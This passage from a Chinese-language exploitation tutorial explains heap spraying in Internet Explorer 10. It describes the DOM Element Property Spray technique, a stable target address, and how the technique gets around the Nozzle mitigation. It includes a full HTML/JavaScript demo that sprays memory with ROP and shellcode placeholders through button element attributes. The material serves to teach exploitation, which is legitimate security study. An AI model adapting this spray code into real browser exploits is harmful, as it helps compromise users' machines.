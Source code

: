 我们这里演示了堆喷射的结果，如下图

[![](./img/85782/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t0148761a931e416814.png)

**<br>**

**8.IE10环境下的堆喷射**

到了IE10这里，情况就有一些不一样了。IE10浏览器中禁止了喷射BSTR（javascript string）的操作，这意味着自IE6发展而来的堆喷射方法已经不再奏效了，我们以前的那些方法都不能在IE10浏览器下成功进行喷射。在这种情况下，一种被称为DOM Element Property Spray（简称DEPS）的技术由Corelan Team提了出来（https://www.corelan.be/index.php/2013/02/19/deps-precise-heap-spray-on-firefox-and-ie10/）

这项技术可以说是源自联想和类比，因为我们在对UAF漏洞进行利用时通常都会使用标签进行占位（后面介绍利用的文章中会详述），既然创建标签可以分配内存那么根据这种情况我们会联想到是否可以通过标签进行喷射。

DEPS技术的思想正是创建大量的DOM元素（标签），通过DOM元素去喷射内存，并且通过设置DOM元素的属性来设置堆喷内存的内容。

并且由于内存布局的不同的原因，在IE10下0x20302228是一个稳定且便于到达的地址。而且利用DOM喷射一个比较凑巧的优点就是不需要刻意的绕Nozzle缓解机制，其本身就不受Nozzle的影响。下面是一个展示堆喷射效果的DEMO，因为IE10浏览器是随着Windows8一起发布的，所以我们这里使用Windows8作为测试环境。



```
&lt;html&gt; 
&lt;head&gt;&lt;/head&gt; 
&lt;body&gt; 
&lt;div id='blah'&gt;&lt;/div&gt; 
&lt;script language='javascript'&gt; 
         var div_container = document.getElementById('blah'); 
         div_container.style.cssText = "display:none"; 
         var data; 
         offset = 0x104; 
         junk = unescape("%u2020%u2020"); 
         while(junk.length &lt; 0x1000) 
             junk+=junk;          
            rop = unescape("%u4141%u4141%u4242%u4242%u4343%u4343%u4444%u4444%u4545%u4545%u4646%u4646%u4747%u4747"); 
         shellcode = unescape("%ucccc%ucccc%ucccc%ucccc%ucccc%ucccc%ucccc%ucccc"); 
         data = junk.substring(0,offset) + rop + shellcode; 
         data += junk.substring(0,0x800-offset-rop.length-shellcode.length); 
         while(data.length &lt; 0x80000) data += data; 
         for (var i=0; i &lt; 0x500; i++) 
         { 
                 var obj = document.createElement("button"); 
                 obj.title = data.substring(0,0x40000-0x58); 
                 div_container.appendChild(obj); 
         } 
&lt;/script&gt; 
&lt;/body&gt; 
&lt;/html&gt;
```

此外还有一个非常有趣的现象，在x64的Win8和Win8.1下，我们一般打开的IE浏览器实际上都是32位的。那么你可能有疑问，因为IE明明提供了64位和32位两个版本，为什么我们打开的都是32位的？事实上64位版本是专为Metro界面提供的，如果你从Metro启动IE就会发现它是64位的。我发现这一点是因为我一直使用的是32位的windbg，32位的windbg是调试不了64位进程的，我在调试时发现有时候IE进程可以附加有时候不可以附加，后来查了一下资料才发现是这么回事。

IE10的64位进程与32位进程
